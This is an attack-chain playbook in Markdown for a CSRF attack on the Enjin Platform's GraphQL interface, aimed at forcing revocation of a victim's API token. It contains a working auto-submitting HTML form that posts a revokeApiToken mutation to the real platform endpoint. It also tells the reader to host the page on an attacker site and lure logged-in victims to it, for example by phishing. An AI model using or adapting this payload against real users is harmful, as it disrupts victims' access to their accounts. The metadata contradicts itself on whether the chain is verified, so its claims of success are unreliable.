

---
tags:
  - csrf
  - graphql
  - api-token
  - xsrf-bypass
  - enjin
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Craft-Malicious-HTML-Form-for-CSRF-Bypass]]'
  - '[[procedures/Submit-Form-to-Revoke-API-Token]]'
step_count: 2
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Drive-by Compromise]]'
updated_at: '2025-12-14T17:32:39.312Z'
description: >-
  A CSRF attack exploiting missing XSRF token validation in the Enjin Platform's
  GraphQL interface to force revocation of a victim's API token using their
  session.
skill_level: intermediate
impact_level: high
id: a11b3200-590f-480c-bb52-f85b7a3600ed
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Drive-by Compromise]]'
---
# CSRF Bypass to Revoke API Token in Enjin Platform GraphQL

Multi-stage attack chain demonstrating a complete CSRF exploit workflow against the Enjin Platform.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~1 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- None (uses standard HTML and browser)

### Target Environment

- Web platform: Enjin Platform with GraphQL interface
- Required services/ports: HTTPS on standard web ports (443)
- Network access requirements: Victim must be authenticated via session token

### Initial Access Requirements

- Victim must have an active session on the Enjin Platform
- Attacker needs to deliver the malicious HTML (e.g., via phishing or malicious site)
- No prior credentials needed beyond victim's session

## Detailed Attack Procedures

### Step 1: Craft Malicious HTML Form
procedure: [[procedures/Craft-Malicious-HTML-Form-for-CSRF-Bypass]]

**Objective**: Create an HTML form that targets the GraphQL endpoint to revoke the API token without requiring XSRF validation.

**Instructions**: Design an HTML page with a form that posts a GraphQL mutation to the revocation endpoint, using the victim's session cookie implicitly.

```html
<!DOCTYPE html>
<html>
<body>
  <form id="csrf-form" action="https://platform.enjin.io/graphql" method="POST">
    <input type="hidden" name="query" value='{"query": "mutation { revokeApiToken(input: {tokenId: \"VICTIM_TOKEN_ID\"}) { success } }"}'>
  </form>
  <script>document.getElementById('csrf-form').submit();</script>
</body>
</html>
```

**Expected Output**: The form auto-submits when loaded, sending the request.

**Success Indicators**:
- Form loads and submits without errors
- No XSRF token prompt appears

### Step 2: Submit Form to Revoke API Token
procedure: [[procedures/Submit-Form-to-Revoke-API-Token]]

**Objective**: Trick the victim into loading the malicious HTML, causing their browser to send the revocation request using their session.

**Instructions**: Host the crafted HTML on an attacker-controlled site and lure the victim to visit it while authenticated to Enjin.

**Expected Output**: GraphQL response indicating successful token revocation.

**Success Indicators**:
- Victim's API token is revoked
- Victim loses access to platform services requiring the token

## Attack Chain Summary

### Key Achievements

1. Bypassed CSRF protection by exploiting session token usage without XSRF validation
2. Forced revocation of API token, disrupting victim access
3. Demonstrated critical impact on authenticated users via simple HTML delivery

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[Drive-by Compromise]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]

---
*Last updated: 2023-10-01T00:00:00Z*
